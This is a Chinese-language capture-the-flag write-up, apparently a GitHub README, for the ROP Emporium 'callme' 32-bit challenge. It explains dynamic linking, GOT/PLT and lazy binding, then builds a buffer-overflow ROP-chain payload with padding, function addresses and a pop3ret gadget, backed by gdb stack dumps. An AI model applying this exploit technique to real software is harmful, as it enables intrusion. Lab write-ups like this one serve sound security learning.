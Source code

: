 ## Static Link 与 Dynamic Link
程式的 link 分为 `static link` 和 `dynamic link`

| Method | Desc | Pros & Cons |
| --- | --- | --- |
| Static Link | 会把外部函数的代码，一起打包到单一个执行档里 | 快，占空间 |
| Dynamic Link | 需先载入 shared library，等到要执行 library 里某个函数的时候 ，再 call (jmp进去) | 慢，省空间 |
<br>

* 为何后者省空间：若三个程式都要用 printf()，static link 需要加载三份 printf()，而 dynamic link 只需要加载一份。
* shared library = shared object (.so)

<br>

## GOT 与 PLT
问题：Dynamically linked 的程序，在 runtime 是如何執行到 shared library 里的函數呢？

先看看 GOT 与 PLT 两大功臣。

| Table | Section | Name | 功用 |
| --- | --- | --- | --- |
| GOT | .got.plt | Global Offset Table | 存 shared library 函数在内存中的实际位址（一个函数一条entry） |
| PLT | .plt | Procedure Linkage Table | (1) 存 shared library 函数在 GOT 对应到的 entry (2) 解析函数实际位址 |

简单来说：

1. 调用一个 shared library function 时，eip 会先跳到 PLT，然后立马跳到 GOT。
2. 如果是第一次呼叫某个外部函数，它在 GOT 中记录的「实际 address」，会是「未解析」的状态。
3. 该 GOT entry 此时所填的位址，会指向 PLT 中的「函数位址解析」函数
4. 此时会再跳回 PLT ，调用这个特殊函数来解析目标函数的位址。
5. 解析完成后， GOT entry 所记录的「实际 address」 就会自动更新，然后就正式调用该函数。
6. 下次调用该函数时，由于 GOT 已记录该函数的「实际 address」，已不再是「未解析」的状态了，所以可以直接调用。

详细：https://ropemporium.com/guide.html

<br>

## Lazy Binding
问题：为什么需要 Lazy Binding？不能在程式执行前，就填好 GOT 吗？

可以。只要执行 `export LD_BIND_NOW=1` 然后运行你的程式即可，

但 startup time 会慢一点，因为要事先解析所有 shared library functions 的「实际address」（小程式感觉没啥差异）

<br>

## Reverse
上一题 (1-split) 我们藉由 bof 返回到 usefulFunction() 里的 `call system()`，以下我们称呼这种方法 ret2call。

ret2call 有个致命的缺点，就是我们没办法控制他的 return address，因为 return address 是由 call 指令把它 push 上去的。

---

所以在这题里，我们要改变策略，直接 ret2function 里，同时把 return address 与参数都摆在适合的地方。

但这题「必须」依序调用 callme_one(1,2,3) -> callme_two(1,2,3) -> callme_three(1,2,3) 才能取得 flag。

建构 payload：
```
11 * "AAAA" +
callme_one + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_two + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_three + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

但这样是行不通的，如果我们直接用 gdb 进行 single stepping，当程序运行到 callme_one 的时候，stack 就坏了
```
 ► 0xf7fcf6d0 <callme_one>       push   ebp       # 刚进入 callme_one， push esp「尚未执行」
   0xf7fcf6d1 <callme_one+1>     mov    ebp, esp
   0xf7fcf6d3 <callme_one+3>     push   ebx
   0xf7fcf6d4 <callme_one+4>     sub    esp, 0x14
   0xf7fcf6d7 <callme_one+7>     call   __x86.get_pc_thunk.bx <0xf7fcf5a0>

   0xf7fcf6dc <callme_one+12>    add    ebx, 0x1924
   0xf7fcf6e2 <callme_one+18>    cmp    dword ptr [ebp + 8], 1
   0xf7fcf6e6 <callme_one+22>    jne    callme_one+219 <0xf7fcf7ab>

   0xf7fcf6ec <callme_one+28>    cmp    dword ptr [ebp + 0xc], 2
   0xf7fcf6f0 <callme_one+32>    jne    callme_one+219 <0xf7fcf7ab>

   0xf7fcf6f6 <callme_one+38>    cmp    dword ptr [ebp + 0x10], 3
─────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────
00:0000│ esp  0xffffc760 ◂— 0x1    # esp 应该要是 return address ！！！！！
01:0004│      0xffffc764 ◂— 0x2
02:0008│      0xffffc768 ◂— 0x3
03:000c│      0xffffc76c —▸ 0xf7dc000a ◂— '_realloc'
04:0010│      0xffffc770 —▸ 0xf7f8f000 ◂— 0x1e1d6c
... ↓
06:0018│      0xffffc778 ◂— 0x0
07:001c│      0xffffc77c —▸ 0xf7dc7a11 (__libc_start_main+241) ◂— add    esp, 0x10
```

<br>

我们错在哪？首先，ret2call不需要塞 return address，**但 ret2func / ret2libc 需要塞 return address**，

所以 payload 应该要长下面这样，是吧？（先不管 callme_three）
```
11 * "AAAA" +
callme_one + callme_two "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

我草，虽然 callme_one 结束可以 return 到 callme_two，但是又碰到了和什么一样的状况：stack 上没有 return address
```
 ► 0xf7fcf7cd <callme_two>        push   ebp        # 刚进入 callme_two， push esp「尚未执行」
   0xf7fcf7ce <callme_two+1>      mov    ebp, esp
   0xf7fcf7d0 <callme_two+3>      push   esi
   0xf7fcf7d1 <callme_two+4>      push   ebx
   0xf7fcf7d2 <callme_two+5>      sub    esp, 0x10
   0xf7fcf7d5 <callme_two+8>      call   __x86.get_pc_thunk.bx <0xf7fcf5a0>
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffffc764 ◂— 0x1    # esp 应该要是 return address ！！！！！
01:0004│      0xffffc768 ◂— 0x2
02:0008│      0xffffc76c ◂— 0x3
03:000c│      0xffffc770 —▸ 0xf7f8000a ◂— 0x43140e0a
04:0010│      0xffffc774 —▸ 0xf7f8f000 ◂— 0x1e1d6c
05:0014│      0xffffc778 ◂— 0x0
06:0018│      0xffffc77c —▸ 0xf7dc7a11 (__libc_start_main+241) ◂— add    esp, 0x10
07:001c│      0xffffc780 ◂— 0x1
```

<br>

所以我归纳出一个 ROP Chain... Rule：

> 如果要用 ret2func 达成 ROP Chain，每次 return 前必须额外 ret2gadget 把目前函数的全部参数 pop 掉。

ret2gadget 要怎么选 gadget？ 有几个参数就 pop 几个。这题里面，三个函数都是带三个参数，所以选 pop3ret (pop * 3 + ret)
```
pop; pop; pop; ret
```

可以通过 `ROPGadget --binary callme32` 找到全部 ROP gadget 的位址，上述这个就是这样找到的。

<br>

## Pwn
Final payload：
```
11 * "AAAA" +
callme_one + pop3ret + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_two + pop3ret + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_three + "AAAA" + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

ROP Chain:
```
pwnme() -> callme_one(1,2,3) -> callme_two(1,2,3) -> callme_three(1,2,3)
```

以上 payload 各行的说明：
1. padding
2. 返回到 callme_one(), callme_one(1,2,3) 结束时返回到 pop3ret。pop * 3 后...
3. 返回到 callme_two(), callme_two(1,2,3) 结束时返回到 pop3ret。pop * 3 后...
3. 返回到 callme_three(), callme_three(1,2,3) 结束时返回到 AAAA (we don't care)

<br>

## 结论
> 如果要用 ret2func 达成 ROP Chain，每次 return 前必须额外 ret2gadget 把目前函数的全部参数 pop 掉。
```
func1 + pop_n_ret + n * arguments +
func2 + pop_n_ret + n * arguments +
func3 + pop_n_ret + n * arguments +
...
```

不带参数的话，应该就不用 pop_n_ret ，可以直接接下一个 func 的位址...吧 (?)
